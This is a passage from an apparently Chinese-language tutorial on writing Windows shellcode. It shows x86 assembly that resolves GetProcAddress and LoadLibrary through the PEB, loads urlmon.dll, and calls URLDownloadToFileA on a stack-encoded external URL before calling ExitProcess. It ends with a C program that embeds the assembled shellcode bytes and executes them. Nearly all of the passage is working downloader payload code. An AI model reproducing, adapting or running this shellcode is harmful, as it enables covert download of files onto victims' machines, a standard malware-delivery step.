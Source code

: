 ##### 调用URLDownloadToFileA

    xor edx,edx
    push 0x00000067;g
    push 0x706a2e31; pj.1
    push edx;0
    push 0x66584f58;fXOX
    push 0x31372f6e;17/n
    push 0x632e7a77;c.zw
    push 0x642f2f3a;d//:
    push 0x70747468;ptth
    push edx; 0
    push edx; 0
    mov ecx,esp
    add ecx,0x20
    push ecx
    sub ecx,0x18
    push ecx
    push edx
    call eax;调用URLDownloadToFIle

##### 查找ExitProcess地址

    add esp,0x28
    pop edx;edx=GetProcAddress地址
    pop ebx;ebx=kernel32地址
    push 0x00737365;sse
    push 0x636f7250;corP
    push 0x74697845;tixE
    push esp
    push ebx
    call edx

##### 调用ExitProcess

    xor ecx,ecx
    push ecx;exit_code =0
    call eax

### 0x04编码shellcode

##### 调用反汇编，查看字节码，编写shellcode

    int main(int argc,char *argv[]) {
        unsigned char shellcode[] = { 0x33,0xc9,0x64,0x8b,0x41,0x30,0x8b,0x40,
            0x0c,0x8b,0x70,0x1c,0xad,0x8b,0x58,0x08,0x8b,0x53,0x3c,0x03,0xd3,0x8b,0x52,
            0x78,0x03,0xd3,0x8b,0x72,0x20,0x03,0xf3,0x33,0xc9,0x8b,0x04,0x8e,0x41,0x03,
            0xc3,0x81,0x38,0x47,0x65,0x74,0x50,0x75,0xf2,0x81,0x78,0x04,0x72,0x6f,0x63,
            0x41,0x75,0xe9,0x8b,0x72,0x24,0x03,0xf3,0x66,0x8b,0x0c,0x4e,0x49,0x8b,0x72,
            0x1c,0x03,0xf3,0x8b,0x14,0x8e,0x03,0xd3,0x33,0xc9,0x53,0x52,0x51,0x68,0x61,
            0x72,0x79,0x41,0x68,0x4c,0x69,0x62,0x72,0x68,0x4c,0x6f,0x61,0x64,0x54,0x53,
            0xff,0xd2,0x83,0xc4,0x0c,0x59,0x50,0x51,0x66,0xb9,0x6c,0x6c,0x51,0x68,0x6f,
            0x6e,0x2e,0x64,0x68,0x75,0x72,0x6c,0x6d,0x54,0xff,0xd0,0x83,0xc4,0x10,0x8b,
            0x54,0x24,0x04,0x33,0xc9,0x51,0x66,0xb9,0x65,0x41,0x51,0x68,0x6f,0x46,0x69,
            0x6c,0x68,0x6f,0x61,0x64,0x54,0x68,0x6f,0x77,0x6e,0x6c,0x68,0x55,0x52,0x4c,
            0x44,0x54,0x50,0xff,0xd2,0x83,0xc4,0x14,0x33,0xd2,0x33,0xc9,0xb1,0x67,0x51,0x68,0x31,
            0x2e,0x6a,0x70,0x52,0x68,0x58,0x4f,0x58,0x66,0x68,0x6e,0x2f,0x37,0x31,0x68,
            0x77,0x7a,0x2e,0x63,0x68,0x3a,0x2f,0x2f,0x64,0x68,0x68,0x74,0x74,0x70,0x52,
            0x52,0x8b,0xcc,0x83,0xc1,0x20,0x51,0x83,0xe9,0x18,0x51,0x52,0xff,0xd0,0x83,
            0xc4,0x28,0x5a,0x5b,0x68,0x65,0x73,0x73,0x41,0x83,0x6c,0x24,0x03,0x41,0x68,
            0x50,0x72,0x6f,0x63,0x68,0x45,0x78,0x69,0x74,0x54,0x53,0xff,0xd2,0x33,0xc9,
            0x51,0xff,0xd0};
        ((void(*)())&shellcode)();
    }
